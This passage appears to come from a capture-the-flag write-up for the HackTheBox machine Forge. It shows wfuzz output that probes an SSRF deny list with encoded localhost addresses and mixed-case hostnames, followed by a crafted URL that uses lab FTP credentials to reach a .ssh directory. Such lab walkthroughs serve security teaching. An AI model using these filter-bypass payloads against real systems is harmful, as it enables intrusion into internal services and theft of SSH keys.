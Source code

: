     ===================================================================
    ID           Response   Lines    Word     Chars       Payload                                        
    ===================================================================
    
    000000007:   200        42 L     75 W     1254 Ch     "127.1"                                        
    000000009:   200        42 L     75 W     1254 Ch     "0x7f.0.0.0x1"                                 
    000000008:   200        42 L     75 W     1254 Ch     "0177.0.0.01"                                  
    000000004:   200        42 L     75 W     1254 Ch     "forge.HTB"                                    
    000000003:   200        42 L     75 W     1254 Ch     "fOrge"                                        
    000000002:   200        42 L     75 W     1254 Ch     "fOrge.htb"                                    
    000000006:   200        42 L     75 W     1254 Ch     "127.0.0.2"                                    
    000000012:   200        37 L     73 W     1112 Ch     "user:heightofsecurity123!@"                   
    000000011:   200        42 L     75 W     1254 Ch     "0"                                            
    000000014:   200        42 L     75 W     1254 Ch     "loCalhost"                                    
    
    Total time: 0.316392
    Processed Requests: 14
    Filtered Requests: 4
    Requests/sec.: 44.24884
    

Alternatively, with `-ss blacklist`, it will show what was blocked:

    
    
    oxdf@hacky$ wfuzz -w denylist-check -d 'url=http://FUZZ&remote=1' --ss blacklisted http://forge.htb/upload
    ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://forge.htb/upload
    Total requests: 13
    
    ===================================================================
    ID           Response   Lines    Word     Chars       Payload                                        
    ===================================================================
    
    000000001:   200        37 L     67 W     1048 Ch     "forge.htb"                                    
    000000005:   200        37 L     67 W     1048 Ch     "127.0.0.1"                                    
    000000010:   200        37 L     67 W     1048 Ch     "0.0.0.0"                                      
    000000013:   200        37 L     67 W     1048 Ch     "localhost"                                    
    
    Total time: 0.309301
    Processed Requests: 13
    Filtered Requests: 9
    Requests/sec.: 42.03023
    

It looks like the string checks are case-sensitive, which is easy to bypass.
And the IP address are only checking the most basic forms.

Knowing this, I can skip the step of having to build a redirector, and just
submit a URL like:

    
    
    http://admin.fOrge.htb/upload?u=ftp://user:heightofsecurity123!@0/.ssh/
    